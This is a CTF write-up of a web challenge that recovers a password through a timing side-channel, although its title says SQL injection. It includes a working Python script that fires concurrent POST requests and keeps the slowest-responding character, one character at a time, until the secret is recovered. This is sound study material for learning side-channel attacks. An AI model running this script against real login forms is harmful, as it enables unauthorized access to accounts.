 ```yaml
---
title: SQL Injection By Reponse Size
created: 2021-09-03
tags:
  - 'ctf'
  - 'sqli'
  - 'web'
--- 
```



- So in this challenge we have only an address `http://139.59.46.128:2345/` & there is a field to submit password.
- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/challenges/chal2/images/1.png)
- If we try to enter something we obviously get an error `Incorrect Password`.Look at the developer console we can see the form is sending a post request with a post parameter `password`.
- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/challenges/chal2/images/2.png)
- We can try sql injection payload and also test for xss & all but noting.
- At this point I had no idea about what to do. I tried bruteforcing passwords(using worldlists). Nothing happened.
- I tried sending one character at a time using burp and
- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/challenges/chal2/images/3.png)
- If we enable `Response received` we can see `e` took the longest time to give a response & it's not random if we run this multiple time we can still see `e` took the longest to give back a response
- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/challenges/chal2/images/4.png)
- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/challenges/chal2/images/8.png)
- We can attack one character at a time. But it'll take a great effort to do this manually with burp so I made a script

```python
#!/usr/bin/python3
from requests_futures.sessions import FuturesSession
from concurrent.futures import as_completed
import string
from requests import post

char_set = string.ascii_lowercase + string.ascii_uppercase + string.digits + '_' + '{' + '}'  
url = "http://139.59.46.128:2345/"

flag = ''
#flag = 'enc0re{5'

print("[*]Getting the password.......")
with FuturesSession(max_workers=len(char_set)) as session:
    stat = {}
    while not flag.endswith("}"):
        threads = [
                    session.post(url, data={"password": f"{flag + char}"}) 
                    for char in char_set
                ]

        flag += max(zip((thread.result().elapsed.total_seconds() for thread in threads), char_set))[1]
        print(f"[*]Password: {flag}")

print(f"[!]Password: {flag}")

print("[*]Submitting the flag....")

r = post(url, data={"password":f"{flag}"})

print(r.text)

```

- The concept is simple we're bruteforcing one character at a time and looking for the one which takes the longest to give a response back & adding it to the flag variable(string) & we're using multiprocessing([future library](https://pythonrepo.com/repo/ross-requests-futures-python-working-with-http))
- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/challenges/chal2/images/5.png)
- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/challenges/chal2/images/7.png)
- Running the script we got the flag
- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/challenges/chal2/images/6.png)
